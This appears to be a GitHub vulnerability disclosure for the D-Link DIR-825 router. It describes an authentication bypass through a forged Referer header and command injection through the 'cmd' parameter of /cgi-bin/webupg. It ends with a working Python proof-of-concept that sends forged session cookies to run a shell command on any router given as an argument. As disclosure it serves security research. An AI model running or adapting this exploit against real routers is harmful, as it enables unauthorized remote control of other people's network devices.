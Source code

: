 # D-Link DIR-825 Unauthorized Remote Command Execution
An authorization command injection vulnerability about DIR-825

</br>**Exploit Author:** KeenSight Lab.Tgp (topsuchow@gmail.com)
</br>**Vender:** D-Link

## /cgi-bin/webupg
**Firmware version:** 
DIR-825(G1): all
</br>......
<br/>**Hardware Link:**https://downloads.d-link.co.za/DIR/dir825%20(new)/firmware/
## 1. Authentication bypasses the vulnerability

In the "webupg" binary, attackers can bypass authentication through parameters "autoupgrade.asp", and perform functions such as downloading configuration files and updating firmware without authorization.

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20133715.png)

Through the web port, attackers can access "autoupgrade.asp" without authorization.

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20140001.png)
#### BurpSuite Test

Replace "cgi-bin/webupg" at Referer with "autoupgrade.asp"

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20134942.png)

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20135536.png)

## 2. Authorization Remote Command Execution

In the "webupg" binary, because of the lack of parameter verification, attackers can use "cmd" parameters to execute arbitrary system commands after obtaining authorization

`shell`
![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145714.png)

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145811.png)

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145901.png)

#### BurpSuite Test

Combine these two vulnerabilities, that attack can realize RCE

![image](https://github.com/tgp-top/D-Link-DIR-825/blob/52e44bda1c3bfd801da59d6a51420b3cad4c64e6/image/2022-01-13%20145991.png)

## POC
<sup> 
  
  
  
    # DIR-825
    # arch:mipsel
    # hw:G1
    # fw:7.XX
    import urllib
    import requests
    import linecache
    import sys
    import threading
    from urllib.parse import urlparse
    from concurrent.futures import ThreadPoolExecutor
    import urllib3
    urllib3.disable_warnings()

    def attack(url):
        scheme = urlparse(url).scheme
        hostname = urlparse(url).hostname
        port = urlparse(url).port
        header={
            'Host':hostname+':'+str(port),
            'Origin': url,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
            'Referer': url+'/autoupgrade.asp',
            'Cookie': 'sessionid=ae3aa37; auth=ok; expires=Sun, 15-May-9999 01:45:46 GMT; language=en_us; sys_UserName=admin',
            'Connection': 'close',
        }

        data=urllib.parse.urlencode(
            { 'name': 'shell',
              'cmd': 'ifconfig',
            'key': 'twmode',}, quote_via=urllib.parse.quote)
        urls = url+'/cgi-bin/webupg'
        try:
            ret = requests.post(url=urls,
                          headers=header,
                          data=data,
                          verify=False,
                          allow_redirects=False,
                          timeout=30,
                          )
        except Exception:
            return

    if __name__ == "__main__":
        rhost = sys.argv[1]
        attack(rhost)
</sup>
